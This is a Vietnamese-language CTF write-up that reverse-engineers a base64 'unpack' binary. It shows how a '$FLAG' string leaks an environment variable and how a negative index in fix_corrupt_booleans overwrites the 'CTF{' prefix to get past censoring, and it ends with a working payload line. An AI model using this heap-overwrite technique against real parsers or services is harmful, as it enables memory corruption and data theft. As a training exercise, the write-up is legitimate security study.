





- Đây là một binary không quá là phức tạp, nó nhận vào mỗi chuỗi `base64` thực hiện `decode` rồi `unpack` chuỗi đã `decode`.

- ```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    int size; // [rsp+1Ch] [rbp-14h] BYREF
    ubf_packed *ptr; // [rsp+20h] [rbp-10h]
    char *s; // [rsp+28h] [rbp-8h]
  
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(_bss_start, 0LL, 2, 0LL);
    signal(14, (__sighandler_t)alarm_handler);
    alarm(0x3Cu);
    if ( !(unsigned int)set_env_from_file("FLAG", "/flag")
      || !(unsigned int)set_env_from_file("MOTD", "/motd")
      || !(unsigned int)set_env_from_file("TEAM", "/team") )
    {
      return -1;
    }
    size = 0;
    ptr = read_blob_b64(&size);
    if ( ptr || size > 0 )
    {
      s = unpack(ptr, size);
      if ( !s )
        s = errorstr;
      puts(s);
      return 0;
    }
    else
    {
      puts("Invalid data provided");
      return -1;
    }
  }
  ```

- Nó thực hiện set các environment bao gồm cả chuỗi flag, do đó bài này mục đích của tác giả là khiến ta phải get `environ` của `FLAG` và in nó ra, và thật may có một chức năng giúp ta có thể lấy giá trị `environment`:

- ```c
  int *__fastcall expand_string(const char *data, int size, const char **src, int *size_environ)
  {
    int v4; // eax
    int v5; // edx
    int *result; // rax
    const char *s; // [rsp+28h] [rbp-8h]
  
    if ( size > 1
      && *data == '$'
      && (memcpy(tmp_string, data + 1, size - 1), tmp_string[size - 1] = 0, (s = getenv(tmp_string)) != 0LL) )
    {
      v4 = strlen(s);
      *src = s;
      v5 = 0xFFFF;
      if ( v4 <= 0xFFFF )
        v5 = v4;
      result = size_environ;
      *size_environ = v5;
    }
    else
    {
      *src = data;
      result = size_environ;
      *size_environ = size;
    }
    return result;
  }
  ```

- Hàm này được gọi ở chức năng `unpack_string`, ta sẽ tìm cách kiểm soát đầu vào của chuỗi `tmp_string`, tức `data` thành `FLAG`.

- mình đã define lại 2 struct như sau:

- 

- `ubf_packed` sẽ là struct chứa data được decode bởi `base64decode` còn `ubf_unpacked` dùng cho việc unpack `ubf_packed`.

- `unpack(ptr, size)` được truyền với 2 tham số là `ptr` chứa data decode và size. Quá trình unpack nó sẽ thực hiện `unpack_entry`, tại hàm này nó sẽ chuyển đổi dữ liệu từ `ubf_packed` sang `ubf_unpacked`:

- ```c
  ubf_packed *__fastcall unpack_entry(ubf_packed *ptr, unsigned __int64 end_ptr, ubf_unpacked **a3)
  {
    int type; // eax
    ubf_unpacked *tmp; // [rsp+20h] [rbp-10h]
    ubf_packed *v7; // [rsp+28h] [rbp-8h]
  
    tmp = (ubf_unpacked *)malloc(29uLL);
    tmp->none = 0LL;
    tmp->type = ptr->type;
    tmp->loop = ptr->loop;
    tmp->size = ptr->size;
    tmp->idx = ptr->idx;
    tmp->ptr = (__int64)malloc(ptr->size);
    if ( !tmp->ptr )
  ```

- Sau khi chuyển xong thì nó sẽ thực hiện unpack tương ứng với `type`, để thực hiện `unpack_string` ta sẽ set `type='s'`:

- ```c
  if ( type == 's' )
    {
      v7 = unpack_strings(ptr, tmp, end_ptr); // decodebase64, unpack, end_ptr
    }
  ```

- Trong hàm `unpack_strings`:

- ```c
  ubf_packed *__fastcall unpack_strings(ubf_packed *decode, ubf_unpacked *tmp, unsigned __int64 end_ptr)
  {
    int size_env; // [rsp+24h] [rbp-3Ch] BYREF
    void *src; // [rsp+28h] [rbp-38h] BYREF
    __int16 size; // [rsp+36h] [rbp-2Ah]
    char *data; // [rsp+38h] [rbp-28h]
    int i; // [rsp+44h] [rbp-1Ch]
    const char *s_data_id; // [rsp+48h] [rbp-18h]
    int idx; // [rsp+54h] [rbp-Ch]
    __int64 ptr; // [rsp+58h] [rbp-8h]
  
    ptr = tmp->ptr;
    idx = decode->idx;
    data = decode->data;
    s_data_id = &decode->data[decode->idx];
    if ( decode->idx == 2LL * decode->loop )
    {
      if ( decode->idx <= tmp->size )
      {
        for ( i = 0; i < decode->loop; ++i )
        {
          size = *(_WORD *)&data[2 * i];
          src = 0LL;
          size_env = 0;
          if ( size < 0 || end_ptr < (unsigned __int64)&s_data_id[size] )
          {
            errorstr = "String data out of bounds";
            return 0LL;
          }
          expand_string(s_data_id, size, (const char **)&src, &size_env);
          if ( idx + size_env > tmp->size )
          {
            resize_rawbuf(tmp, size_env + idx + 1);
            ptr = tmp->ptr;
          }
          *(_WORD *)(2LL * i + ptr) = size_env;
          memcpy((void *)(idx + ptr), src, size_env);
          *(_BYTE *)(size_env + idx + ptr) = 0;
          s_data_id += size;
          idx += size_env + 1;
        }
        return (ubf_packed *)s_data_id;
      }
      else
      {
        errorstr = "String metadata out of bounds";
        return 0LL;
      }
    }
    else
    {
      errorstr = "Invalid string metadata";
      return 0LL;
    }
  }
  ```

- Ta có thể thấy rằng `expand_string(s_data_id, size, (const char **)&src, &size_env)` điều ta cần là `s_data_id` để nó `getenv(s_data_id+1)` thì ta phải chèn `FLAG` vào đây.

- `s_data_id = &decode->data[decode->idx]` ta kiểm soát được index và data do đó ta dễ dàng chèn `FLAG` vào, đi vào hàm `expand_string` ta cần pass qua `*data == '$'` điều này có nghĩa là ký tự đầu tiên của `s_data_id là '$'`.

- Dựa theo cấu trúc này ta viết một hàm `genpayload` đơn giản: `def gen_payload(size, type, loop, idx, data): return p32(size, sign=True) + type + p16(loop) + p16(idx) + data`.

- Trải qua quá trình unpack thì nó sẽ được chuyển qua một hàm xử lý chuỗi để in chuỗi ra tùy nhiên trong với dạng `string` thì hàm được xử lý qua `strs_tostr`, hàm này có gọi tới một hàm con `censor_string` được định nghĩa như sau:

- ```c
  void *__fastcall censor_string(unsigned __int8 *a1, int a2)
  {
    void *result; // rax
  
    if ( a2 > 5 )
    {
      result = (void *)*a1;
      if ( (_BYTE)result == 'C' )
      {
        result = (void *)a1[1];
        if ( (_BYTE)result == 'T' )
        {
          result = (void *)a1[2];
          if ( (_BYTE)result == 'F' )
          {
            result = (void *)a1[3];
            if ( (_BYTE)result == '{' )
              return memset(a1 + 4, 'X', a2 - 5);
          }
        }
      }
    }
    return result;
  ```

- Nhìn thôi cũng biết, nếu chuỗi in ra có `CTF{` thì nó sẽ biến tất cả các ký tự còn lại thành `X` và in ra đúng cái nịt như này:

- 

- Điều cần làm là ta chỉ việc ghi đè một ký tự trong 4 cái trên là ta sẽ bảo toàn được flag.

- Thật may vì một lỗi `Interger Overflow` xuất hiện trong hàm `fix_corrupt_booleans`, vì nó đều unpack trên heap do đó sau khi unpack string ta sẽ unpack booleans và với `IO` thì ta có thể overwrite `CTF`.

- ```c
  unsigned __int64 __fastcall fix_corrupt_booleans(ubf_unpacked *tmp)
  {
    unsigned __int64 result; // rax
    unsigned __int64 v2; // [rsp+10h] [rbp-18h]
    char *data; // [rsp+18h] [rbp-10h]
    int i; // [rsp+24h] [rbp-4h]
  
    data = (char *)(tmp->ptr + tmp->idx);
    v2 = tmp->ptr + tmp->size;
    for ( i = 0; ; ++i )
    {
      result = (unsigned int)tmp->loop;
      if ( i >= (int)result )
        break;
      result = (unsigned __int64)&data[i];
      if ( result >= v2 )
        break;
      data[i] = data[i] != 0;
    }
    return result;
  }
  ```

- `tmp->idx` là một biến `int` và nó có thể mang giá trị âm.

- ta sẽ thực hiện 2 lần unpack, để hiểu rõ hơn ta sẽ đặt `breakpoint` tại hàm `fix_corrupt_booleans`.

- 

- Đây là khi tôi chọn `index` bằng -1, ta sẽ chọn sao cho `data[idx]` trỏ lên phân vùng flag

- 

- Ta cần giảm đi 0x50 do đó index sẽ là `-0x4e`.

- `payload = gen_payload(0x18, b's', 1, 2, p16(5) + b'$FLAG') + gen_payload(0x18, b'b', 1, -0x4e, b'a')` 

- 